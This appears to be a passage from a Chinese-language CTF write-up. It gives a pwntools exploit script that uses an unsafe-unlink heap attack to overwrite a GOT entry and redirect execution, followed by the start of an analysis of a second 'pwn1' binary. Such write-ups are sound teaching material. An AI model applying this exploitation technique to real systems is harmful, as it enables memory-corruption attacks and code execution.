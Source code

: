 ```python
	io.sendafter("---------------------------\n",'3')
	io.sendafter("to create:",str(idx))


p_chunk0 = 0x6012a0
showmenu = 0x4009C7
getchargot =0x601238
test = 0x4009B6

createnode(0)
createnode(1)
createnode(2)
pay = p64(0)+p64(128+1)+p64(p_chunk0-0x18)+p64(p_chunk0-0x10)
pay += 'A'*(128-4*8)
pay += p64(128)+p64(128+0x10) + 'le3d1ng'
editnode(0,len(pay),pay)
delnode(1)

pay = p64(0) + p64(0) + p64(0) + p64(p_chunk0 - 0x18) + p64(getchargot)
editnode(0,len(pay),pay)

editnode(1,8,p64(test))
editnode(0,1,'a')
io.interactive()
#DEBUG()
```

这题远程环境有问题，打过去全程没回显。

---





## pwn1



checksec

![5ca355b6979d5](https://i.loli.net/2019/04/02/5ca355b6979d5.png)



这题IDA里F5有问题，是因为call eax这个指令。

指令也不麻烦，直接读汇编把。

![5ca355ebbfef2](https://i.loli.net/2019/04/02/5ca355ebbfef2.png)

sub esp,30H

读取输入的buf在esp+13H这个地址，读取20个字节

最后lea eax,\[esp+13H\]
